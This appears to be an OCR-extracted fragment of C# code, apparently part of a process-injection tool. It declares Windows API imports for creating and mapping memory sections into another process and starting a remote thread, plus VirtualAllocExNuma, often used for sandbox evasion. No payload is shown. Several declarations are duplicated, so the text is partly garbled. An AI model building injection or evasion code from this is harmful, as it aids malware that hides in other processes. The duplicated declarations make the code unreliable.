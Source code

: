 ```cs 
    const uint SECTION_MAP_WRITE = 0x0002;
    public
    const uint SECTION_MAP_EXECUTE = 0x0008;
    public
    const uint PAGE_READ_WRITE = 0x04;
    public
    const uint PAGE_READ_EXECUTE = 0x20;
    public
    const uint PAGE_EXECUTE_READWRITE = 0x40;
    public
    const uint SEC_COMMIT = 0x8000000;

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

    [DllImport("ntdll.dll", SetLastError = true, ExactSpelling = true)]
    static extern UInt32 NtCreateSection(ref IntPtr SectionHandle, UInt32 DesiredAccess, IntPtr ObjectAttributes, ref UInt32 MaximumSize, UInt32 SectionPageProtection, UInt32 AllocationAttributes, IntPtr FileHandle);

    [DllImport("ntdll.dll", SetLastError = true)]
    static extern uint NtMapViewOfSection(IntPtr SectionHandle, IntPtr ProcessHandle, ref IntPtr BaseAddress, UIntPtr ZeroBits, UIntPtr CommitSize, out ulong SectionOffset, out uint ViewSize, uint InheritDisposition, uint AllocationType, uint Win32Protect);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

    [DllImport("ntdll.dll", SetLastError = true, ExactSpelling = true)]
    static extern UInt32 NtCreateSection(ref IntPtr SectionHandle, UInt32 DesiredAccess, IntPtr ObjectAttributes, ref UInt32 MaximumSize, UInt32 SectionPageProtection, UInt32 AllocationAttributes, IntPtr FileHandle);

    [DllImport("ntdll.dll", SetLastError = true)]
    static extern uint NtMapViewOfSection(IntPtr SectionHandle, IntPtr ProcessHandle, ref IntPtr BaseAddress, UIntPtr ZeroBits, UIntPtr CommitSize, out ulong SectionOffset, out uint ViewSize, uint InheritDisposition, uint AllocationType, uint Win32Protect);

    [DllImport("ntdll.dll", SetLastError = true)]
    static extern uint NtUnmapViewOfSection(IntPtr hProc, IntPtr baseAddr);

    [DllImport("ntdll.dll", SetLastError = true)]
    static extern IntPtr RtlCreateUserThread(IntPtr processHandle, IntPtr threadSecurity, bool createSuspended, Int32 stackZeroBits, IntPtr stackReserved, IntPtr stackCommit, IntPtr startAddress, IntPtr parameter, ref IntPtr threadHandle, IntPtr clientId);

    [DllImport("ntdll.dll", ExactSpelling = true, SetLastError = false)]
    static extern int NtClose(IntPtr hObject);

    [DllImport("kernel32.dll")]
    static extern void Sleep(uint dwMilliseconds);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

    [DllImport("kernel32.dll")]
    static extern IntPtr GetCurrentProcess();

    // BEGIN DEBUG (imports)
    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);
```